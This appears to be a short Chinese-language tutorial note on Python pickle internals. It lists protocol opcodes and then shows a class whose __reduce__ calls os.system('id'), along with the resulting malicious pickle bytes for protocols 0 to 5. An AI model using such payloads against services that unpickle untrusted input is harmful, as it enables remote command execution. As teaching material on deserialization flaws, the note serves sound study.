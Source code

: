 ```

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]

# Protocol 3 (Python 3.x)

BINBYTES       = b'B'   # push bytes; counted binary string argument
SHORT_BINBYTES = b'C'   #  "     "   ;    "      "       "      " < 256 bytes

# Protocol 4

SHORT_BINUNICODE = b'\x8c'  # push short string; UTF-8 length < 256 bytes
BINUNICODE8      = b'\x8d'  # push very long string
BINBYTES8        = b'\x8e'  # push very long bytes string
EMPTY_SET        = b'\x8f'  # push empty set on the stack
ADDITEMS         = b'\x90'  # modify set by adding topmost stack items
FROZENSET        = b'\x91'  # build frozenset from topmost stack items
NEWOBJ_EX        = b'\x92'  # like NEWOBJ but work with keyword only arguments
STACK_GLOBAL     = b'\x93'  # same as GLOBAL but using names on the stacks
MEMOIZE          = b'\x94'  # store top of the stack in memo
FRAME            = b'\x95'  # indicate the beginning of a new frame

# Protocol 5

BYTEARRAY8       = b'\x96'  # push bytearray
NEXT_BUFFER      = b'\x97'  # push next out-of-band buffer
READONLY_BUFFER  = b'\x98'  # make top of stack readonly
```

opcode的版本造成的序列化值不一样

```python
import os
import pickle

class Demo():
    def __init__(self, name='z3eyond'):
        self.name = name

    def __reduce__(self):
        return (os.system, ('id',))


demo = Demo()
for i in range(6):
    print('[+] pickle v{}: {}'.format(str(i), pickle.dumps(demo, protocol=i)))
```

```python
[+] pickle v0: b'cnt\nsystem\np0\n(Vid\np1\ntp2\nRp3\n.'
[+] pickle v1: b'cnt\nsystem\nq\x00(X\x02\x00\x00\x00idq\x01tq\x02Rq\x03.'
[+] pickle v2: b'\x80\x02cnt\nsystem\nq\x00X\x02\x00\x00\x00idq\x01\x85q\x02Rq\x03.'
[+] pickle v3: b'\x80\x03cnt\nsystem\nq\x00X\x02\x00\x00\x00idq\x01\x85q\x02Rq\x03.'
[+] pickle v4: b'\x80\x04\x95\x1a\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x02id\x94\x
85\x94R\x94.'
[+] pickle v5: b'\x80\x05\x95\x1a\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x02id\x94\x
85\x94R\x94.'
```
